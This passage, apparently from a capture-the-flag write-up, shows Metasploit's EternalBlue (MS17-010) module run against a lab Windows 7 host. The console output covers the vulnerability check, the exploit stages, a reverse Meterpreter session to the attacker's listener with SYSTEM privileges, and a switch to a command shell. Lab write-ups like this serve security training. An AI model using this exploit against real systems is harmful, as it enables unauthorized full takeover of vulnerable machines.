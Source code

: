 
    msf6 exploit(windows/smb/ms17_010_eternalblue) > run

    [*] Started reverse TCP handler on 10.10.14.14:4444 
    [*] 10.10.10.40:445 - Executing automatic check (disable AutoCheck to override)
    [*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
    [+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
    [*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
    [+] 10.10.10.40:445 - The target is vulnerable.
    [*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
    [+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
    [*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
    [*] 10.10.10.40:445 - Connecting to target for exploitation.
    [+] 10.10.10.40:445 - Connection established for exploitation.
    [+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
    [*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
    [*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
    [*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
    [*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
    [+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
    [*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
    [*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
    [*] 10.10.10.40:445 - Starting non-paged pool grooming
    [+] 10.10.10.40:445 - Sending SMBv2 buffers
    [+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
    [*] 10.10.10.40:445 - Sending final SMBv2 buffers.
    [*] 10.10.10.40:445 - Sending last fragment of exploit packet!
    [*] 10.10.10.40:445 - Receiving response from exploit packet
    [+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
    [*] 10.10.10.40:445 - Sending egg to corrupted connection.
    [*] 10.10.10.40:445 - Triggering free of corrupted buffer.
    [*] Sending stage (200262 bytes) to 10.10.10.40
    [+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    [+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    [+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    [*] Meterpreter session 1 opened (10.10.14.14:4444 -> 10.10.10.40:49173) at 2021-05-03 21:32:51 -0400

    meterpreter > getuid 
    Server username: NT AUTHORITY\SYSTEM



I find it easier to work out of a real shell since I don't use
Meterpreter very often:



    meterpreter > shell
    Process 2220 created.
    Channel 1 created.
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
